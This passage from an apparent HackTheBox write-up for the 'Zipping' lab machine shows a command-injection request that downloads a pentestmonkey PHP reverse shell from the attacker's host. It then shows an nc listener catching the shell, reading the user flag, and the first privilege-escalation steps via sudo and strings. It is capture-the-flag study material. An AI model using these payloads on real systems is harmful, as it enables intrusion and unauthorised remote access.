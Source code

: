 ![cmd id test](/img/zipping/zipping_php_cmd_test_id.png)

Next I wget a pentest monkey shell and head to the file. I did need to check with a **pwd** that we were in the **shop** directory. 

```
page=/var/lib/mysql/phpcmdraccoon&0=wget%20http://10.10.14.5:8081/pentestmonkey.php
http://zipping.htb/shop/pentestmonkey.php
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Zipping]
└──╼ $nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.229 43556
Linux zipping 5.19.0-46-generic #47-Ubuntu SMP PREEMPT_DYNAMIC Fri Jun 16 13:30:11 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 02:29:00 up 22:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
bash: cannot set terminal process group (1149): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/$ cd ~
cd ~
rektsu@zipping:/home/rektsu$ ls
ls
test
user.txt
rektsu@zipping:/home/rektsu$ cat user.txt
cat user.txt
28f5b6ac7d3---------------------
```

<h1>Root</h1>

<h2>Exploiting ELFs</h2>


```bash
rektsu@zipping:/$ sudo -l
sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
rektsu@zipping:/$ strings /usr/bin/stock
strings /usr/bin/stock
/lib64/ld-linux-x86-64.so.2
mgUa
fgets
stdin
puts
exit
fopen
__libc_start_main
fprintf
dlopen
__isoc99_fscanf
```